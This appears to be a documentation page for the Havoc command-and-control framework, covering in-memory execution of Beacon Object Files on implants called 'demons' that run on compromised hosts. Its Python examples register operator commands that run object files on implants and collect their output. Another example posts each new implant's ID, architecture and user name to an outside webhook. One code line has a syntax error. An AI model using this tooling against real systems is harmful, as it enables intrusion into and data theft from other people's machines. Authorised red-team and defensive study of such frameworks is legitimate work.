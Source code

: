# 12. Object Files

The Havoc agent supports in-memory execution of object files, commonly known as Beacon Object Files or BOFs.  

To execute an object file, you can run:  `inline-execute /tmp/objectfile.x64.o`

## Python modules
From python, you can pack data as you normally do in Cobalt Strike. You can find several examples of how to do this in [this](https://github.com/HavocFramework/Modules) repository.  

### Register a new command

First, import the following pagackes:
```python
from havoc import Demon, RegisterCommand, RegisterModule
```

Define the body of your new command:  
```python
def my_new_command( demonID, *params ):
    TaskID : str    = None
    demon  : Demon  = None
    # create an instance of the argument packer
    packer = Packer()
    # get an instance of the demon
    demon  = Demon(demonID)

    # check the parameters
    if len(params) != 1:
        demon.ConsoleWrite( demon.CONSOLE_ERROR, "wrong parameters!" )
        return False

    # pack the parameters
    packer.addstr( params[ 0 ] )

    # create a task ID  
    TaskID = demon.ConsoleWrite( demon.CONSOLE_TASK, f"Tasked demon to execute some BOF" )

    # instruct Havoc to run a BOF with certain parameters
    demon.InlineExecute( TaskID, "go", f"bin/some_BOF.{demon.ProcessArch}.o", packer.getbuffer(), False )

    # return the new task ID
    return TaskID
```

Register the new command:
```python
RegisterCommand( my_new_command, "", "command-name", "A short description of what it does", "", , "usage info", "usage example" )
```

### Get the output of a BOF in python
Also, you can run an object file and obtain the result with a callback, like so:
```python
def my_callback(demonID, worked, output):
    print('hi there! I am the python callback of the "locale" BOF')
    print(f'demonID: {demonID}')
    print(f'did the BOF run ok?: {worked}')
    if worked:
        print('here you have the output :)')
        print(output)
        print('bye!')

def locale( demonID, *param ):
    TaskID : str    = None
    demon  : Demon  = None

    demon  = Demon( demonID )

    return demon.InlineExecuteGetOutput( my_callback, "go", "ObjectFiles/locale.x64.o", b'' )
```

### Get a callback upon new demons

In this example, we call a webhook on all incomming demons.  

```python
import requests
from havoc import Demon, RegisterCallback

def alert_new_demon( demonID ):
    demon  : Demon  = None
    demon  = Demon( demonID )

    # send some basic info to the webhook about this new demon
    info = {
    'id': demonID,
    'arch': demon.ProcessArch,
    'user': demon.User,
    # etc...
    }

    # send!
    requests.post('https://some.webhook.com/new-demon', data=info)

RegisterCallback( alert_new_demon )
```
